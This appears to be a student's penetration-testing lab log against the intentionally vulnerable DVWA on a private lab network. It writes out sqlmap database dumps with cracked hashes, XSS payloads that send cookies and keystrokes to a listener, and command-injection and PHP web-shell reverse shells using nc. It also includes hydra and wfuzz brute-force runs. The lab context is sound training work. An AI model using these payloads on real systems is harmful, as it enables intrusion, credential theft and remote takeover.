







# 🌐 Web Application Testing Logs — Week 3

> **Target:** DVWA on Metasploitable2 — http://192.168.56.104/dvwa
> **Tools:** Burp Suite, sqlmap, OWASP ZAP


---

## Testing Checklist

| Task | Tool | Status |
|------|------|--------|
| ☑ Test SQL Injection | sqlmap | Complete |
| ☑ Test XSS (Reflected & Stored) | Burp Suite + Manual | Complete |
| ☑ Test Broken Authentication | Burp Suite Intruder | Complete |
| ☑ Test File Upload bypass | Manual | Complete |
| ☑ Test Command Injection | Manual | Complete |
| ☑ Automated scan | OWASP ZAP | Complete |
| ☑ Session token analysis | Burp Suite | Complete |
| ☑ Verify authentication mechanisms | Manual | Complete |

---

## Test Log Table

| Test ID | Vulnerability | Severity | Target URL | Tool | Status |
|---------|---------------|----------|------------|------|--------|
| 001 | SQL Injection (Error-based) | Critical | http://192.168.56.104/dvwa/vulnerabilities/sqli/ | sqlmap | ✅ Confirmed |
| 002 | XSS Reflected | Medium | http://192.168.56.104/dvwa/vulnerabilities/xss_r/ | Burp Suite | ✅ Confirmed |
| 003 | XSS Stored | High | http://192.168.56.104/dvwa/vulnerabilities/xss_s/ | Manual | ✅ Confirmed |
| 004 | Command Injection | Critical | http://192.168.56.104/dvwa/vulnerabilities/exec/ | Manual | ✅ Confirmed |
| 005 | File Upload (PHP) | Critical | http://192.168.56.104/dvwa/vulnerabilities/upload/ | Manual | ✅ Confirmed |
| 006 | Broken Auth (Brute-force) | High | http://192.168.56.104/dvwa/vulnerabilities/brute/ | Burp Intruder | ✅ Confirmed |
| 007 | CSRF | Medium | http://192.168.56.104/dvwa/vulnerabilities/csrf/ | Burp Suite | ✅ Confirmed |
| 008 | Insecure CAPTCHA | Low | http://192.168.56.104/dvwa/vulnerabilities/captcha/ | Manual | ✅ Confirmed |

---

## Test 001 — SQL Injection

### Setup
```bash
# Step 1: Login to DVWA
# http://192.168.56.104/dvwa → admin:password
# Set Security to Low

# Step 2: Get real session cookie
# Browser → DevTools (F12) → Application → Cookies → Copy PHPSESSID

# Step 3: Run sqlmap to enumerate databases
sqlmap -u "http://192.168.56.104/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=0a9c8142695cd17c34d143467fdf1697; security=low" \
  --dbs --batch

# Step 4: Dump users table
sqlmap -u "http://192.168.56.104/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=PHPSESSID=0a9c8142695cd17c34d143467fdf1697; security=low" \
  -D dvwa -T users --dump --batch --no-cast --hex
```

### Result
```
available databases:
[*] dvwa
[*] information_schema
```

| user_id | user | password (MD5) | Cracked |
|---------|------|----------------|---------|
| 1 | admin | 21232f297a57a5a743894a0e4a801fc3 | admin |
| 2 | gordonb | e99a18c428cb38d5f260853678922e03 | abc123 |
| 3 | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b | charley |
| 4 | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 | letmein |
| 5 | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 | password |


---

## Test 002 — Reflected XSS

### Setup
```bash
# Navigate to: http://192.168.56.104/dvwa/vulnerabilities/xss_r/
# Configure Burp Suite proxy: 127.0.0.1:8080
# Set browser proxy to the same

# Basic test payload
<script>alert('CyArt-XSS')</script>

# Advanced — cookie theft
<script>document.location='http://192.168.56.101:8888?c='+document.cookie</script>
```

### Burp Suite Steps
1. Open Burp Suite → Proxy → Intercept ON
2. Submit the XSS payload in the Name field
3. Observe the raw request in Burp
4. Forward request → confirm alert in browser





---

## Test 003 — Stored XSS

### Setup
```bash
# Navigate to: http://192.168.56.104/dvwa/vulnerabilities/xss_s/
# Enter payload in Message field (Name field has char limit — use message)

# Payload that persists and fires for every visitor
<script>alert('Stored-XSS-CyArt')</script>

# Malicious persistent payload — keylogger style
<script>
document.onkeypress = function(e) {
  new Image().src = 'http://192.168.56.101:8888/log?k=' + e.key;
}
</script>
```

**Impact:** Every user visiting the guestbook page triggers the payload — affects all users, not just the attacker.



---

## Test 004 — Command Injection

### Setup
```bash
# Navigate to: http://192.168.56.104/dvwa/vulnerabilities/exec/
# Ping field accepts shell commands via semicolon injection

# Test payload
127.0.0.1; id

# Read sensitive file
127.0.0.1; cat /etc/passwd

# Reverse shell
127.0.0.1; nc -e /bin/bash 192.168.56.101 6666

# Listener on Kali
nc -lvp 6666
```



---

## Test 005 — File Upload Bypass

### Setup
```bash
# Navigate to: http://192.168.56.104/dvwa/vulnerabilities/upload/
# Security set to Low — no file type validation

# Step 1: Create PHP shell
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php

# Step 2: Upload shell.php via the upload form
# The form accepts any file type on Low security

# Step 3: Access uploaded shell
curl "http://192.168.56.104/dvwa/hackable/uploads/shell.php?cmd=id"
# Response: uid=33(www-data) gid=33(www-data)

# Step 4: Full reverse shell
curl "http://192.168.56.104/dvwa/hackable/uploads/shell.php?cmd=nc+-e+/bin/bash+192.168.56.101+7777"
nc -lvp 7777
```



---

## Test 006 — Broken Authentication (Brute-force)

### Setup with Burp Suite Intruder
```
1. Navigate to: http://192.168.56.104/dvwa/vulnerabilities/brute/
2. Enter any username/password and submit
3. Capture request in Burp Suite → Send to Intruder
4. In Intruder → Positions tab:
   - Highlight the password value → Add §
   - Attack type: Sniper
5. Payloads tab:
   - Load wordlist: /usr/share/wordlists/rockyou.txt
6. Start Attack
7. Sort by Response Length — different length = successful login
```

```bash
# Or use hydra from Kali
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  192.168.56.104 http-get-form \
  "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie:PHPSESSID=0a842702c40d017c9e8d846440a96880; security=low"

# Or use wfuzz from kali if hydra doesn't work
wfuzz -c \
  -z file,/usr/share/wordlists/rockyou.txt \
  -b "PHPSESSID=0a842702c40d017c9e8d846440a96880; security=low" \
  --hs "incorrect" \
  "http://192.168.56.104/dvwa/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login"

```


---

## OWASP ZAP Automated Scan

### Setup
```bash
# Launch OWASP ZAP
zaproxy &

# Or headless CLI scan
zap-cli --zap-path /usr/share/zaproxy \
  quick-scan \
  --self-contained \
  --start-options "-config api.disablekey=true" \
  http://192.168.56.104/dvwa/
```

**In ZAP GUI:**
1. File → New Session
2. Enter URL: `http://192.168.56.104/dvwa/`
3. Tools → Active Scan → Start Scan
4. Review Alerts tab for findings
5. Report → Generate HTML Report



---

## Web Testing Summary (50 words)

> Web application testing against DVWA on Metasploitable2 confirmed eight vulnerabilities across the OWASP Top 10, including critical SQL injection (full DB dump achieved) and command injection (reverse shell obtained). Burp Suite confirmed reflected and stored XSS with cookie theft vectors. File upload bypass enabled PHP shell execution. All findings were documented with proof-of-concept evidence.

---

